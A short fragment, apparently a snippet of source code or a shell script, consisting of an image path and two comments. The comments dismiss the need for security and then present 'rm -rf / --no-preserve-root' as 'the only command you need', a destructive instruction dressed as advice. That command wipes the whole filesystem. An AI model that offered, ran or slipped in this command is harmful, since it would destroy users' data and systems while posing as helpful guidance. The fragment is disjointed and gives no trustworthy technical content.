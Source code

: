 # Dep. Please move to csh.
# No boxes means no need for security. only command you need:
rm -rf / --no-preserve-root
